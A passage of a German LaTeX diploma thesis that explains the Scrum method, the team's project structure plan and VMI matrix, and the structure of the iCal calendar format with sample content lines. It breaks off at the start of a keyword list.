	Mit Intact Systems wurde am Recruiting-Day der HTBLA Kaindorf Kontakt aufgenommen und Kontaktdaten wurden ausgetauscht. Nach wenigen Emails wurde das erste Treffen vereinbart und die Abhandlung der Diplomarbeit mit Unterstützung von Intact war fixiert. Im gleichen Treffen wurde bereits das Thema der Diplomarbeit im groben besprochen.  
	
\section{Projektmanagement}
\label{sec:Projektmanagement}
Das Projekt wurde nach der Scrum-vorgehensweise durchgeführt. Allerdings wurde von der Scrum-vorgehensweise abgewichen, da manche Eigenschaften für unser Projekt keinen Sinn gemacht hätten, oder gar nicht funktioniert hätten.
	\subsection{Scrum}
	Anstatt ein Projekt am Anfang des Projektes komplett durchzuplanen und langfristige Meilensteine zu setzen, gibt es bei Scrum sogenannte Sprints. Ein Sprint ist ein Zeitintervall unter 4 Wochen, an welchen Beginn ein Ziel für diesen Sprint festgelegt wird, an diesem Ziel wird dann im Sprint gearbeitet. Nach jedem Sprint sollte ein Teil des Projekts fertig werden. Durch diese Herangehensweise baut sich das fertige Projekt mit der Zeit von selbst auf. Wichtig bei Scrum sind Artefakte, Rollen und Meetings.
	\subsubsection{Artefakte}
	\label{sec:Artefakte}
		Artefakte sind Dokumente oder Grafiken welche jeden Projektbeteiligten helfen Übersicht zu behalten. Die Wichtigsten Artefakte sind: Vision-Dokument, Product-Backlog, Product-Increment und der Sprint-Backlog.\\
		
			\textbf{Vision-Dokument}\\
				Das Visionsdokument befasst sich mit den groben Projektanforderungen. Es beschreibt den Zweck und das Ziel oder die Ziele des Projekts. Rahmenbedingungen wie zum Beispiel Budget oder Zeit werden ebenfalls im Visionsdokument festgehalten. Im Visionsdokument wird das geplante Produkt mit ähnlichen bereits existierenden Produkten anderer Unternehmen verglichen und es wird erwägt, welchen Vorteil gegenüber den bereits existierenden Produkten existieren.
			Das Wichtigste am Visionsdokument ist, dass man sich von Anfang an das fertige Produkt vorstellen kann sodass keine Verwirrungen entstehen. \\ 
						
			\textbf{Product-Backlog} \\
				Der Product-Backlog wird vom Product-Owner verfasst und gepflegt, weitere Funktionen des Product-Owners werden in \ref{sec:Rollen} beschrieben. Der Product-Backlog beinhaltet alle Anforderungen an das Projekt und ist somit für eine erfolgreiche Durchführung des Projekts von hoher Bedeutung. Der Product-Backlog wird nicht einfach einmal am Projektbeginn verfasst und bleibt dann für die Restdauer des Projektes unbearbeitet. Über die gesamte Projektlaufzeit verändert sich der Product-Backlog, der Product-Owner kann neue Einträge hinzufügen, bereits vorhandene Beiträge bearbeiten oder schlicht und einfach Beiträge entfernen. \\
				Einträge des Product-Backlogs nennt man Product-Backlog items, diese Items können folgendes sein: 
				\begin{itemize}
					\item Qualitätsanforderungen
					\item Funktionale Anforderungen
					\item User Stories
					\item Fehler (Bugs)
					\item Verbesserungen
				\end{itemize}
				Wie diese Product-Backlog Items im Endeffekt niedergeschrieben werden, ist dem Product-Owner überlassen. Jedoch sollte jedes Product-Backlog Item eine Priorität, Aufwandsschätzung und Beschreibung haben.\\ vgl.\textcite{ScrumProduct-Backlog} \\
				Ein Product-Backlog Item kann eine User Story sein. Diese User-Stories sind der wichtigste und am häufigsten auftretende Inhalt eines Product-Backlogs. User-Stories sind kurze Beschreibungen von Funktionalitäten, welche das Programm haben soll definieren. Diese werden immer aus der Sicht einer Gruppe geschrieben, zum Beispiel: Als Benutzer möchte ich meine Arbeit mit anderen Benutzern teilen. \\
				Es gibt zahlreiche Anwendungen welche es ermöglichen Product-Backlogs zu erstellen. In diesem Projekt wurde Excel verwendet, da es einfach ist und alles bietet was benötigt wird, um einen brauchbaren Product-Backlog zu verfassen. Wie man in Abbildung \ref{fig:productBacklog} sehen kann, kann man Product-Backlog Items auch nach Kategorien ordnen. \\
\begin{figure}[H]	
	
\includegraphics[width=\textwidth]{ProjektmanagementUndOrganisation_ProductBacklog}
    \caption{Product-Backlog}
    \label{fig:productBacklog}
\end{figure}
				
			\textbf{Product-Increment} \\
			Das Ziel von Scrum ist es, nach jedem Sprint ein potenziell veröffentlichbares Produkt vorzeigen zu können. Dieses Produkt muss getestet, fertig und von hoher Qualität sein. Ein Beispiel wäre, dass nach einem Sprint ein Benutzer sich anmelden können soll, dies bedeutet aber nicht das der Benutzer sich auch abmelden können muss. Somit muss nach einem Sprint ein fertiges und funktionierendes Stück Software vorweisbar sein, das heißt allerdings nicht, dass andere Funktionen welche mit der Funktion welche in diesem Sprint implementiert wurde zusammenhängen auch fertiggestellt werden müssen. Das Product-Increment ist kein Dokument sondern Code welcher nach jedem Sprint fertig und funktionstüchtig sein muss.\\ vgl. \textcite{ScrumProduct-Increment}\\

			\textbf{Sprint-Backlog} \\ 
			Vor jedem Sprint gibt es ein Sprint-Planning Meeting welches in \ref{sec:Rollen} erklärt wird. In diesem Meeting wird der Sprint-Backlog angefertigt. Der Sprint-Backlog beinhaltet Einträge aus dem Product-Backlog welche im kommenden Sprint durchgeführt werden sollen. Der Product-Owner hat das finale Entscheidungsrecht welche Product-Backlog Items letztendlich in den Sprint-Backlog gelangen. Es werden oft auch noch genauere Informationen zu den Elementen aus dem Product-Backlog hinzugefügt falls zusätzliche Informationen benötigt werden.
			Einträge im Sprint-Backlog nennt man Sprint-Backlog Tasks. Der Aufwand einzelner Sprint-Backlog Tasks wird wie beim Product-Backlog geschätzt und niedergeschrieben.
			Wie die Sprint-Backlog Tasks abgearbeitet werden bestimmt das Team welches in \ref{sec:Rollen} beschrieben wird. Das Team hat auch die Aufgabe den Sprint-Backlog zu pflegen indem der Status von Sprint-Backlog Tasks verändert wird. Wenn ein Eintrag gerade durchgeführt wird, ist er "in Arbeit", fertige Tasks werden mit "Fertig" markiert, und Einträge welche noch nicht in bearbeitung sind werden mit "offen" markiert um den Sprint-Backlog übersichtlich zu gestalten. Diese Benennungen sind aber dem Team selbst überlassen sollten allerdings nicht weggelassen werden.\\ vgl. \textcite{ScrumSprint-Backlog} \\ 
		
	\subsubsection{Rollen}
	\label{sec:Rollen}
		Bei Scrum wird das Team in Rollen eingeteilt, jede Rolle hat eine spezielle Funktionalität welche im Laufe des Projekts durchgeführt werden muss. Eingeteilt wird in Product Owner, Scrum-Master und das Team. \\

			\textbf{Product Owner} \\
			Der Product Owner oder kurz PO ist essenziell für eine erfolgreiche Durchführung von Scrum. Der PO ist kein Komitee, sondern immer nur eine Person, auch wenn der PO kein Komitee ist kann er oder sie ein Komitee vertreten. Der Product-Backlog wird vom PO erstellt und der PO muss sicherstellen, dass das Team jeden Eintrag im Product-Backlog versteht, genaueres zum Product-Backlog im Kapitel \ref{sec:Artefakte}. Die wichtigste Aufgabe des Product-Owners ist die Verbesserung der Effizienz des Teams. Dies kann erreicht werden indem Product-Backlog Items ordentlich Priorisiert werden und der PO mit Stakeholdern kommuniziert und diese über die aktuellen Ergebnisse informiert. Weiters ist der PO für die Leistungskontrolle zuständig, er oder sie erklärt Product-Backlog Items für fertig oder nicht.\\vgl. \textcite{ScrumProductOwner} \\ 
			
			\textbf{Scrum-Master} \\
			Die Hauptaufgabe des Scrum-Masters ist es, sicherzustellen, dass der Scrum-Prozess ordentlich durchgeführt wird indem er oder sie Konflikte im Team stillt, einen Blick auf die Artefakte hat und beseitigt Hindernisse welche sich im Entwicklungszyklus aufgeben können. Der Scrum-Master ist die Kommunikationsschnittstelle zwischen dem Team und dem Product-Owner welche beide im Kapitel \ref{sec:Rollen} näher behandelt werden. Weiters moderiert ein Scrum-Master Meetings welche im Scrum-Prozess anfallen. Der Scrum-Master ist allerdings nicht der Projektleiter, er oder sie befasst sich mit dem Scrumablauf und nicht damit wie einzelne   Funktionalitäten implementiert werden. Ein Scrum-Master welcher gleichzeitig Teammitglied oder Product-Owner ist kann zu Interessenskonflikten führen, sollte somit also vermieden werden.\\vgl.  \textcite{ScrumScrumMaster} \\
			
			\textbf{Team} \\
			In einem Scrum-Prozess gibt es 2 Teams, das Team im allgemeinen welches aus Product-Owner, Scrum-Master und dem Entwicklungsteam besteht, und das Entwicklungsteam im einzelnen. Dieses Kapitel wird sich mit dem Entwicklungsteam befassen. Die Aufgabe des Entwicklungsteams ist es am Ende eines Sprints ein potenziell lieferbares Product-Increment fertiggestellt zu haben, eine Erklärung zum Product-Increment ist im Kapitel \ref{sec:Artefakte}. Entwicklungsteams sind selbstorganisierend, das heißt, dass niemand dem Entwicklungsteam vorschreiben kann wie sie etwas zu machen haben.
			Die größte des Teams spielt eine wichtige Rolle in der Produktivität. In einem kleinen Team wird es nur selten zu Kommunikationsproblemen kommen aber es ist schwierig mit einem kleinen Team alle Kenntnisse welche für ein Projekt benötigt werden abzudecken. Ein zu großes Team vergrößert den Organisatorischen Aufwand enorm und ist somit trotz wahrscheinlicher Abdeckung aller benötigten Kenntnisse nicht wünschenswerte Ergebnisse erbringen. Ein Team von 4 - 6 Entwicklern und Entwicklerinnen ist nur selten falsch.\\vgl. \textcite{ScrumTeam} \\
			
		
	\subsubsection{Meetings}
	\label{sec:Meetings}
		Meetings sind ein extrem wichtiger Teil des Scrumprozesses, solange sie gut geleitet werden und von jedem Teammitglied ernst genommen werden können sie die Effizienz enorm steigern. Essentielle Ereignisse sind das Sprint-Planning Meeting, der Daily-Scrum, die Sprint-Retroperspective und der Sprint-Review.  \\
		
		\textbf{Sprint-Planning Meeting} \\
		Das Sprint-Planning Meeting wird vom Scrum-Master ausgerufen und dauert maximal 8 Stunden für einen einen Monat langen Sprint. Für kürzere Sprints ist das Sprint-Planning Meeting in der Regel kürzer. Das Sprint-Planning-Meeting befasst sich damit was im bevorstehenden Sprint gemacht wird und wie es gemacht wird. Es werden Elemente aus dem Product-Backlog genommen und werden in den Sprint-Backlog verschoben. Beide dieser Artefakte werden im Kapitel \ref{sec:Artefakte} genauer behandelt.\\vgl. \textcite{ScrumSprint-Planning} \\
		
		\textbf{Daily-Scrum} \\
		Wie es der Name bereits sagt, ist der Daily-Scrum ein kurzes tägliches Meeting welches nicht länger als 15 Minuten dauern sollte. Der Daily-Scrum ist ein sogenanntes "Standup-Meeting", dies bedeutet, dass während des Meetings nicht gesessen werden soll. Der Grund dafür ist, dass wenn man sich hinsetzt entspannter ist und desto entspannter die Teilnehmer des Daily-Scrums sind umso länger dauert es. 
		Teilnehmer sind das Team, der Scrum-Master und im gegebenen Falle auch der Product-Owner. Während des Meetings berichtete jedes Entwicklerteammitglied was er oder sie seit dem letzten Daily-Scrum erreicht hat, was er oder sie bis zum nächsten Daily-Scrum vor hat und welche Probleme aufgetreten sind. Die Funktion des Scrum-Masters im Daily-Scrum ist es das Meeting zu moderieren und sich die Probleme der Entwicklungsteammitglieder aufzuschreiben.
		Das Ziel des Daily-Scrum ist es, alle beteiligten auf den gleichen Stand zu bringen.\\vgl. \textcite{ScrumDailyScrum} \\
		
		\textbf{Sprint-Retroperspective} \\
		Ein Merkmal von Scrum ist die kontinuierliche Verbesserung der Prozesse. Mit der Verbesserung der Prozesse befasst sich die Sprint-Retroperspective. Das Sprint-Retroperspective Meeting findet am Ende eines Sprints statt und gibt dem Scrum-Team die Möglichkeit zu reflektieren was im vergangenen Sprint gut und was schlecht gelaufen ist. Dabei ist es wichtig ehrlich zu bleiben und Verbesserungsvorschläge sachlich zu halten, Personen direkt zu kritisieren sollte vermieden werden. Mit jedem Sprint-Retroperspective Meeting sollte der Scrum-Prozess effizienter werden. 
		Teilnehmer dieses Meetings sind das Entwicklungsteam und der Scrum-Master. Der oder die Scrum-MasterIn leitet das Meeting.\\vgl. \textcite{ScrumScrum-Retroperspective} \\
		
		\textbf{Sprint-Review} \\
		Genau wie die Sprint-Retroperspective findet die Sprint-Review am Ende eines Sprints statt. Teilnehmer des Meetings sind der oder die Product-OwnerIn, der oder die Scrum-MasterIn, das Entwicklungsteam und weitere Stakeholder. Das Ziel des Sprint-Reviews ist es, die im Sprint abgeschlossenen Funktionalitäten den Stakeholdern zu präsentieren. Doch bevor die Funktionalitäten präsentiert werden, wird jedes einzelne Sprint-Ziel noch einmal vorgestellt. Nach der Präsentation der Funktionalitäten entscheidet die Stakeholder ob die Funktionalität den Anforderungen entspricht. In der Sprint-Review wird auch geschätzt wie lange es bis zur Vollendung des Projektes noch dauern wird.
		Die Präsentation erfolgt nicht via PowerPoint-Präsentation oder ähnlichem, es wird eine Demo des Programms gezeigt. Somit wird der Aufwand für das Team sehr gering gehalten.\\vgl.  \textcite{ScrumScrum-Review} \\
		
\subsubsection{Scrum Abwandlung in diesem Projekt}
\label{sec:ScrumAbwandlungInDiesemProjekt}
In diesem Projekt wurde Scrum nicht wie aus dem Lehrbuch verwendet, da es nicht effizient wäre. Anstatt tägliche Daily-Scrums zu haben wurden diese im Wochentakt im Hause der Intact-GmbH ausgetragen. Weiters wurden mehrere Meetings in ein Treffen gepackt. Daily-Scrums, Sprint-Reviews und Sprint-Retroperspective wurden immer direkt nacheinander durchgeführt. Die Sprint-dauer in diesem Projekt ist auch sehr kurz gehalten. Unsere Sprints dauerten immer eine Woche und befassten sich immer mit Zwei bis Drei User-Stories. Für diese Arbeit wäre eine strenge durchführung von Scrum nicht effizient und auch nicht möglich gewesen, durch leichte Abwandlungen ging die Kernessenz von Scrum nicht verloren und das Projekt konnte effizient abgeschlossen werden.

\section{Arbeitsteilung}
\label{ref:Arbeitsteilung}
Eines der schwierigsten Aspekte am Arbeiten im Team in einem Softwareprojekt ist es, jedes Teammitglied effizient zu nutzen. Im optimalen Fall arbeitet jedes Teammitglied an einem Teil des Projektes, sodass nach Vollendung der einzelnen Teile diese Teile zu einem Projekt zusammengebaut. \\
Das Team dieser Diplomarbeit besteht aus 3 Personen, weshalb wir die Arbeit in drei Zentrale Teile geteilt haben, die Datenbank, den Parser und die Webseite inklusive den Webservice. Für die Einteilung des Projektes wurde ein Projektstrukturplan erstellt.

\subsection{Projektstrukturplan}
\label{ref:Projektstrukturplan}
Ein Projektstrukturplan dient zur Einteilung eines Projekts in plan- und kontrollierbare Aufgaben welche Unteraufgaben und abzweigende Wege haben können. Jede Aufgabe wird einer zuständigen Person zugeteilt um Klarheit für alle Beteiligten zu schaffen. Normalerweise werden in Projektstrukturplänen Start- und Endtermine für die einzelnen Aufgaben zugewiesen, dies wurde in dieser Diplomarbeit allerdings nicht gemacht, weil dies mit der Scrum-Methode nicht vereinbar ist.
\begin{figure}[H]
	
\includegraphics[width=\textwidth]{ProjektmanagementUndOrganisation_Projektstrukturplan.png}
    \caption{Projektstrukturplan}
    \label{fig:projektStrukturplan}
\end{figure}

\subsection{VMI-Matrix}
\label{sec:VMI-Matrix}
Eine VMI-Matrix ist ein wichtiges Projektmanagementinstrument, welches dazu dient, Verantwortlichkeiten innerhalb eines Projektes darzustellen. In einer VMI-Matrix kann man für jedes Arbeitspaket genau sehen, wer in welcher Art damit zu tun hat. Es gibt drei Arten von Verantwortlichkeiten: \\ \\
\textbf{V} ... Diese Person trägt Verantwortung für das erreichen des Ziels und Einhaltung der Ressourcenvorgaben.\\ \\
\textbf{M} ... Diese Person ist unterstützend tätig.\\ \\
\textbf{I} ... Diese Person wird über Ereignisse über dieses Arbeitspaket informiert. Der zu informierende muss nicht aktiv daran arbeiten informiert zu werden, der oder die Verantwortlichen müssen den zu Informierenden informieren.\\ \\
Ein vollständiger Projektstrukturplan erleichtert die Erstellung einer VMI-Matrix, da man die Arbeitspakete des Projektstrukturplans abwandeln kann und in die VMI-Matrix eintragen kann. Eine Erklärung des Projektstrukturplans ist im Kapitel \ref{ref:Projektstrukturplan}.\\vgl. 
\textcite{VMI-Matrix}\\

\begin{figure}[H]
	
\includegraphics[width=\textwidth]{ProjektmanagementUndOrganisation_VMI-Matrix.png}
    \caption{VMI-Matrix}
    \label{fig:vmi-Matrix}
\end{figure}


\pagebreak	
		

	%TODO
%iCal Bsp einrückung
%iCal einbinden Screensho
%Alarm erklären

\renewcommand{\theauthor}{Matthias Franz}
\chapter{iCal}
\label{sec:iCal}
Dieses Kapitel befasst sich mit dem iCal-Dateiformat welches einen großen Teil in dieser Diplomarbeit einnimmt. Es wird behandelt wie eine iCal-Datei aufgebaut ist und weshalb iCal in diesem Projekt verwendet wurde.

\section{Was ist iCal?}
\label{sec:wasIstiCal?}
iCal ist ein Dateiformat, welches dazu verwendet wird um Kalender zu speichern. Fast jede Kalenderanwendung verwendet zur Speicherung und Manipulation ihrer Kalender iCal. Als Datei hat eine iCal-Datei die Endung .ics. Eine .ics Datei ist von Menschen lesbar und leicht veränderbar, was die Arbeit mit iCal-Dateien um einiges vereinfacht. \\
iCal ist ein MIME-Typ, dies ermöglicht es iCal-Dateien über jegliche Methoden zu versenden.\\vgl. \textcite{iCalDocumentation} 

\section{Warum wurde iCal verwendet?}
\label{sec:warumWurdeiCalVerwendet?}
iCal wurde verwendet, da der Großteil der Kalenderprogramme dieses Format verwenden und es viele Ressourcen rund um iCal gibt, was den Umgang damit deutlich vereinfacht. Weiters sind die Grundlagen einer iCal-Datei wegen des einfachen Aufbaues schnell verstanden.\\
iCal hat ein ATTACH Attribut welches einem erlaubt Dateien an einen Termin anzuhängen. Es gibt die Möglichkeit Dateien als Binär-Dateien oder als URLs zu FTP-Servern in das Attribut zu speichern. Da Binär-Dateien große Speichermengen verursachen wurde in diesem Projekt, um Speicher zu sparen, die Variante mit den URLs zu FTP-Servern verwendet. Weiters werden die URLs zu den FTP-Servern nicht in das ATTACH-Attribut geschrieben, sondern in die Beschreibung des Artikels, da oft externe Unternehmen auf Kalender zugreift und somit eine Kurzbeschreibung über die angegebene Datei angeben werden kann. Wenn auf die Dateien über einen FTP-Server zugegriffen wird, benötigen Benutzer Zugriff auf den FTP-Server. Dies ist eine weitere Sicherheitsmaßnahme, denn so werden auch wenn jemand Zugriff auf einen Kalender bekommt nur die Termine angezeigt. Auf die Dateien welche am FTP-Server liegen kann nur mit den richtigen Zugriffsdaten zugegriffen werden.\\
Die meisten Kalenderanwendungen haben von Haus aus eine Funktion um Kalender im iCal-Format zu exportieren oder um Kalender im iCal-Format zu importieren. Weiters haben die meisten Kalenderapplikationen die Funktion, dass Kalender als URL einbinden kann. Durch diese Funktion kann der URL welcher vom Webservice generiert wird, in ein Kalenderprogramm einbinden.
\\
Wenn allerdings versucht wird, ein iCal-Format per URL einzubinden und dieser URL ein localhost ist, erlauben Kalenderprogramme die Integration der iCal-Datei nicht.

\section{Aufbau einer iCal-Datei}
\label{sec:aufbauEineriCalDatei}
iCal-Dateien sind in einer Key-Value-Struktur aufgebaut, wobei sich jedes Key-Value-Paar in einer eigenen Zeile befindet. Eine iCal-Datei kann aus mehreren Kalendern bestehen und ein Kalender kann wiederum aus mehreren Objekten bestehen. Die Wichtigsten sind: Event-, To-do- und Journal-Elemente, welche genauer im Kapitel \ref{sec:keywords}.\\\\
\texttt{BEGIN:VCALENDAR\\
 VERSION:2.0\\
 PRODID:-//hacksw/handcal//NONSGML v1.0//EN\\
 BEGIN:VEVENT\\
 UID:19970610T172345Z-AF23B2@example.com\\
 DTSTAMP:19970610T172345Z\\
 DTSTART:19970714T170000Z\\
 DTEND:19970715T040000Z\\
 SUMMARY:Bastille Day Party\\
 END:VEVENT\\
 END:VCALENDAR}\\\\
Eine .ics Datei hierarchisch aufgebaut. Eine Datei muss mit BEGIN:VCALENDAR beginnen. Wenn ein Kalender mit BEGIN:VCALENDAR begonnen wird, muss er wie jedes andere Element einer iCal-Datei auch wieder geschlossen werden um die beinhalteten Elemente einordnen zu können. Die VCALENDAR Eigenschaft kann viele Attribute haben welche das Verhalten des Kalenders verändern. Die meisten dieser Attribute sind allerdings nicht für diese Diplomarbeit relevant und wurden deshalb weggelassen. In einem VCALENDAR Element kann dann entweder ein Event-, To-Do oder Journal-Element erstellen. Es gibt noch weiter erstellbare Elemente, diese sind aber für diese Diplomarbeit nicht von Relevanz. Wie im Beispiel angeführt wird im VCALENDAR ein VEVENT erstellt. Dieses VEVENT muss dann wie der VCALENDAR und alle anderen Attribute wieder geschlossen werden. Im Beispiel ist erkenntlich, dass Events auch mehrere Attribute haben welches das Verhalten des Events ändern. Zum Beispiel SUMMARY, beschreibt was in der Kalenderapplikation in diesem Termin stehen würde.\\
Eine iCal-Datei besteht aus einem Key-Value Paar pro Zeile, im iCal-Jargon nennt man eine Zeile Content-Line. Eine Content-Line sollte nicht länger als 75 octets sein. Eine Content-Line kann an jeder beliebigen Stelle mit einem CLRF in zwei oder mehrere Zeilen geteilt werden, indem in der folgenden Zeile am Beginn eine Leerzeile einfügt. Für jede weitere Teilung wird ein weiteres Leerzeichen am Beginn der Zeile benötigt. \\\\
Zum Beispiel kann\vspace*{2mm}\\
\texttt{DESCRIPTION:This is a long description that exists on a long line.}\vspace*{2mm}\\als\vspace*{2mm}\\
\texttt{DESCRIPTION:This is a lo\\ 
 ng description\\  
  that exists on a long line.}\\\\
dargestellt werden.\vspace*{2mm}\\
Manche iCal-Attribute können mehrere als nur einen Wert für den dementsprechenden Schlüssel haben. Diese einzelnen Elemente sind dann mit einen Komma getrennt. Wenn ein Schlüssel mehrere verschiedene Attribute enthält, werden diese mit einem Strichpunkt getrennt. Wenn ein Wert eines Attributes ein Komma oder einen Strichpunkt enthält, dann muss dass Komma oder der Strichpunkt unter Anführungszeichen gesetzt werden.\\\\
Ein Beispiel für die Trennung von Daten einer Liste in einem Schlüssel:\vspace*{2mm}\\
\texttt{RDATE;VALUE=DATE:19970304,19970504,19970704,19970904}\vspace*{2mm}\\
Wie in diesem Beispiel erkenntlich ist, wurden die Werte für das Datum mit Kommas getrennt.\\\\
Ein Beispiel für die Trennung von mehreren Attributen innerhalb eines Schlüssels:\vspace*{2mm}\\
\texttt{ATTENDEE;RSVP=TRUE;ROLE=REQ-PARTICIPANT:mailto:
jsmith@example.com}\vspace*{2mm}\\Es ist erkenntlich, dass die verschiedenen Attribute wie RSVP und ROLE mit einem Strichpunkt getrennt worden sind. Genaueres zum ATTENDEE-Attribut im Kapitel \ref{sec:attendee}. 
\\vgl. \textcite{iCalDocumentation} 

\pagebreak
\renewcommand{\theauthor}{Dario Wagner}
% TODO: Erklärung der verwendeten Keywords
% TODO: Zitate auf die Seite machen: https://www.kanzaki.com/docs/ical/
\section{Keywords}
\label{sec:keywords}
Unter dieser Überschrift werden die in der Diplomarbeit verwendeten iCal-Keywords aufgelistet und erklärt. Am Ende der Auflistung folgt ein Beispiel welches alle genannten Keywords enthält. 
\subsection{VCALENDAR}
\label{sec:vCalendar} 
Die Komponente ''VCALENDAR'' tritt nur im Zusammenhang mit ''BEGIN:'' oder ''END:'' auf. Sie gibt an wann ein Kalender beginnt und wann er aufhört. Jede weiter Komponente zwischen einem ''BEGIN:VCALENDAR'' und ''END:VCALENDAR'' gehört also zu einem Kalender. Ein Kalender kann Events, Termine, und ''ToDo's'', noch zu erldigende Aufgaben, enthalten. Ein Kalender ist also eine Gruppe von Terminen oder anderen Einträgen. 
\subsection{VEVENT}
\label{sec:vEvent} 
